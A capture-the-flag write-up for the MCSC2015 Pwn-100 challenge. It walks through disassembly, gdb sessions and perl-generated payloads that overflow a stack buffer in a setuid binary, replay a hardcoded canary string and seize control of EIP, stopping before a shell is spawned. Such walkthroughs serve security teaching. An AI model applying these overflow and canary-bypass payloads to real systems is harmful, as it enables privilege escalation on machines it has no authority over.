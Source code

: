 #MCSC2015 writeup for Pwn-100
After establishing ssh connection, here's what are up to :
```
pwn1@MCSC2015:/challenges/pwn1$ ls -lia
total 28
13238274 drwxr-xr-x 2 root   root    4096 mai   18 15:13 .
13238273 drwxr-xr-x 6 root   root    4096 mai   18 15:13 ..
13238276 -rw------- 1 pwned1 pwned1    36 mai   18 15:13 FLAG
13238275 -rws--sr-x 1 pwned1 pwned1 12376 mai   18 15:13 pwn1
```
Let's first check the security of this binary :	

```
pwn1@MCSC2015:/challenges/pwn1$ /tmp/checksec.sh --file /challenges/pwn1/pwn1 
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   pwn1
pwn1@MCSC2015:/challenges/pwn1$ cat /proc/sys/kernel/randomize_va_space 
2
```
As it appear, there's no protection exept for ASLR.
Nothing but good news ... for now !
Let's look to the binary more closely.
```
080489fe <main>:
 80489fe:	55                   	push   %ebp
 80489ff:	89 e5                	mov    %esp,%ebp
 8048a01:	e8 01 fc ff ff       	call   8048607 <vuln>
 8048a06:	b8 00 00 00 00       	mov    $0x0,%eax
 8048a0b:	5d                   	pop    %ebp
 8048a0c:	c3                   	ret    
 8048a0d:	66 90                	xchg   %ax,%ax
 8048a0f:	90                   	nop
```
Nothing too special,a simple call to vuln function:
```
08048607 <vuln>:
 8048607:	55                   	push   %ebp
 8048608:	89 e5                	mov    %esp,%ebp
 804860a:	83 ec 30             	sub    $0x30,%esp ( Buffer size 30 )
 804860d:	c7 45 f8 00 00 00 00 	movl   $0x0,-0x8(%ebp)
 8048614:	c7 45 fc 00 00 00 00 	movl   $0x0,-0x4(%ebp)
 804861b:	8d 45 f8             	lea    -0x8(%ebp),%eax
 804861e:	c7 00 41 70 57 6d    	movl   $0x6d577041,(%eax)
 8048624:	66 c7 40 04 37 50    	movw   $0x5037,0x4(%eax)
 804862a:	c6 40 06 50          	movb   $0x50,0x6(%eax)
 804862e:	a1 a0 a0 04 08       	mov    0x804a0a0,%eax
 8048633:	50                   	push   %eax
 8048634:	6a 64                	push   $0x64
 8048636:	8d 45 d0             	lea    -0x30(%ebp),%eax
 8048639:	50                   	push   %eax
 804863a:	e8 11 fe ff ff       	call   8048450 <fgets@plt>
 804863f:	83 c4 0c             	add    $0xc,%esp
 8048642:	68 90 8a 04 08       	push   $0x8048a90
 8048647:	8d 45 f8             	lea    -0x8(%ebp),%eax
 804864a:	50                   	push   %eax
 804864b:	e8 d0 fd ff ff       	call   8048420 <strcmp@plt>
 8048650:	83 c4 08             	add    $0x8,%esp
 8048653:	85 c0                	test   %eax,%eax
 8048655:	75 10                	jne    8048667 <vuln+0x60>
 8048657:	8b 45 04             	mov    0x4(%ebp),%eax
 804865a:	50                   	push   %eax
 804865b:	e8 5b ff ff ff       	call   80485bb <drop_eip>
 8048660:	83 c4 04             	add    $0x4,%esp
 8048663:	85 c0                	test   %eax,%eax
 8048665:	75 14                	jne    804867b <vuln+0x74>
 8048667:	68 98 8a 04 08       	push   $0x8048a98
 804866c:	e8 ff fd ff ff       	call   8048470 <puts@plt>
 8048671:	83 c4 04             	add    $0x4,%esp
 8048674:	6a 00                	push   $0x0
 8048676:	e8 25 fe ff ff       	call   80484a0 <exit@plt>
 804867b:	c9                   	leave  
 804867c:	c3                   	ret    
```
This function calls fgets, to get the user's input, then push $0x8048a90.
Finally a strcmp to compare something with whatever $eax point to.
let's run gdb to further inspection and break at those :
Breakpoint 1 at 0x804863a fgets in vuln
Breakpoint 2 at 0x804864b strcmp in vuln
```
pwn1@MCSC2015:/challenges/pwn1$ gdb ./pwn1 
(gdb) break *0x804863a
Breakpoint 1 at 0x804863a
(gdb) 	
Breakpoint 2 at 0x804864b
(gdb) run
Starting program: /challenges/pwn1/pwn1 

Breakpoint 1, 0x0804863a in vuln ()
(gdb) c
Continuing.
salut

Breakpoint 2, 0x0804864b in vuln ()
(gdb) x/s $eax
0xbf896fd8:	"ApWm7PP"
```
let's start again gdb and break when strcmp is called in vuln function
```
pwn1@MCSC2015:/challenges/pwn1$ gdb ./pwn1 
(gdb) run
Starting program: /challenges/pwn1/pwn1 
   

Breakpoint 1, 0x0804864b in vuln ()
(gdb) x/s $eax
0xbf806c28:	"ApWm7PP"
(gdb) run
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /challenges/pwn1/pwn1 
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBB

Breakpoint 1, 0x0804864b in vuln ()
(gdb) x/s $eax
0xbff16cb8:	"BBB\n"
```
By running our binary with "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB" nothing happens ( canary is not overwritten)
However when running with "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBB", the canary is overwritten with "BBB"
Bingo !
(We could find the offset using ltrace to find the offset to the canary as well ...)
Let's exit gdb and check that again
```
pwn1@MCSC2015:/challenges/pwn1$ perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApWm7Px\x00"' |./pwn1 
Go away..
pwn1@MCSC2015:/challenges/pwn1$ perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApWm7PP\x00"' |./pwn1 
pwn1@MCSC2015:/challenges/pwn1$ 
```
I run the program with first a false value of the canary to see if the offset is different from gdb, it can happen xD.
Canary bypassed! we now just need to complete with some A's to override $eip ...

```
pwn1@MCSC2015:/challenges/pwn1$ perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApWm7PP\x00AAAAAAAA"' |./pwn1 
Segmentation fault (core dumped)
```
Bingo let's run gdb again to analyse more closely
```
pwn1@MCSC2015:/challenges/pwn1$ perl -e 'print "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAApWm7PP\x00AAAAAAAA"' > /tmp/input
pwn1@MCSC2015:/challenges/pwn1$ gdb ./pwn1 
(gdb) run < /tmp/input
Starting program: /challenges/pwn1/pwn1 < /tmp/input

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) 
```
Yum Yum ... we're too close to exploit that binary :)
You could start by adding a lot of A's, the $eip=0x41414141, you're going to run again with the same input but less A's at the end, still eip=0x41414141, and run again to find the exact offset.
However,pattern_create.rb and pattern offset.b in the metasploit framework can be handy to find the exact offset to eip without having to bruteforce it.
Now, we just need to override the $eip to spawn a shell ....
ASLR is on, remember ? :)




